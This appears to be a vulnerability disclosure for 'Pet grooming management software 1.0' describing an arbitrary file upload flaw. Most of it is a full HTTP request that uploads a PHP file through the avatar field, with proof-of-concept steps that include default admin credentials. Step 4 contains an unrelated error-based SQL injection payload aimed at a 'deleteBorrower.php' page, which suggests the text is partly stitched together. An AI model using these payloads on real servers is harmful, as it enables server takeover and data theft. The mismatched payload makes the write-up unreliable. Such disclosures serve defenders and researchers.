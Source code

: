 

# Pet grooming management software  - Arbitrary File Upload

#### Exploit Title: Pet grooming management software - Arbitrary File Upload

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

Pet mining management software has an arbitrary file upload vulnerability. In the upload avatar function, due to insufficient filtering of file suffixes, attackers can exploit this vulnerability to gain server privileges by uploading malicious files.

#### Payload used:

```POST /login.php HTTP/1.1
POST /admin/profile.php HTTP/1.1
Host: 192.168.67.28:8021
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://192.168.67.28:8021/admin/profile.php
Cookie: PHPSESSID=nn7i1gq9g3c5789ch9hgs6nogg
Cache-Control: max-age=0
Origin: http://192.168.67.28:8021
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVGAiR4ALFtG8cq4R
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 1376

------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="old_website_image"

2.jpg
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="website_image"; filename="111.php"
Content-Type: text/plain

<?php phpinfo(); ?>
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="fname"

Mayuri
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="lname"

K
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="dob"

K
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="email"

mdkhairnar92@gmail.com
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="gender"

Male
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="contact"

+919529230459
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="username"

mayurik
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="address"

Pawfect Grooming Studio,Shop No. 9, Bella Vista Arcade, Banjara Hills,Hyderabad, Telangana – 500034                                                                                                                                                                  
------WebKitFormBoundaryVGAiR4ALFtG8cq4R
Content-Disposition: form-data; name="update"


------WebKitFormBoundaryVGAiR4ALFtG8cq4R--
```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、Upload the file and capture the package at the avatar upload location

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpage.png)

3、Modify the website_image to the PHP malicious file we are about to upload

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpayload.png)

4、After sending the request packet, the file can be accessed on the page, and the PHP file has been parsed, displaying information related to PHPINfo.

payload:`http://xxxx/deleteBorrower.php?borrower_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp`

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadfile.png)

5、Pet-grooming-management-software

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/code.png)
